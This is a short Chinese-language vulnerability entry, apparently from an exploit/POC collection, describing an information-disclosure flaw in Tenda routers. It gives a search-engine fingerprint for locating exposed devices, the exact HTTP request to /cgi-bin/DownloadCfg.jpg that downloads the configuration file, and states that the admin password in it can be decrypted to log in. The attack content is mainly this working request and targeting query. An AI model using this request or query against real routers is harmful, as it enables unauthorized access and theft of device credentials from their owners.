 # Tenda 路由器 DownloadCfg 信息泄露漏洞

# 一、漏洞描述
Tenda 路由器是深圳市吉祥腾达科技有限公司的一款智能无限路由器。Tenda 路由器存在信息泄露漏洞，攻击者通过构造特殊 URL 地址，读取系统敏感信息网访问该系统。

# 二、影响版本
+ Tenda 路由器

# 三、资产测绘
+ hunter`web.title="Tenda | LOGIN"`
+ 特征

![1701753587120-3c35a8f8-5e6c-44fc-a622-f307f0b5e7fc.png](./img/HuzV0y4anBpmEYe1/1701753587120-3c35a8f8-5e6c-44fc-a622-f307f0b5e7fc-543813.png)

# 四、漏洞复现
```java
GET /cgi-bin/DownloadCfg.jpg HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: lang=cn,en
Upgrade-Insecure-Requests: 1
```

![1701753858226-d38759e2-793c-45df-83c1-16c137293980.png](./img/HuzV0y4anBpmEYe1/1701753858226-d38759e2-793c-45df-83c1-16c137293980-207037.png)

从配置文件中可找到系统账号密码

![1701753905473-968c5560-03de-480e-81eb-4e6028247296.png](./img/HuzV0y4anBpmEYe1/1701753905473-968c5560-03de-480e-81eb-4e6028247296-014519.png)

解密后成功登录系统

![1701753934193-5e17d3df-29e6-4613-a5d9-2ac1258b5991.png](./img/HuzV0y4anBpmEYe1/1701753934193-5e17d3df-29e6-4613-a5d9-2ac1258b5991-492114.png)

![1701753950653-631706d4-3fa3-4c1a-bf44-e84c5f7514c9.png](./img/HuzV0y4anBpmEYe1/1701753950653-631706d4-3fa3-4c1a-bf44-e84c5f7514c9-018661.png)



> 更新: 2024-02-29 23:57:12  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gk3rgwxmuynm2p33>